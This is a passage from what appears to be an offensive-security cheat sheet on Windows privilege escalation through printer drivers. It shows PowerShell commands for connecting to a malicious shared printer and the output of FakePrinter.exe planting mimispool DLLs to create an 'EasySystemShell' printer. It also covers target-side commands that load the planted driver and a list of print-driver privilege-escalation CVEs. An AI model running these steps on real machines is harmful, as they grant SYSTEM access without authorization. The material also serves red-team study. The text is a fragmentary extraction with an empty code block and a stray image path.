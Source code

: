 ```ps1
```

Execute the driver

```ps1
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

### PrinterNightmare

```ps1
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```

```ps1
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```

### Bring Your Own Vulnerability

[jacob-baines/concealed_position](https://github.com/jacob-baines/concealed_position)

* ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
* RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
* POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
* SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE
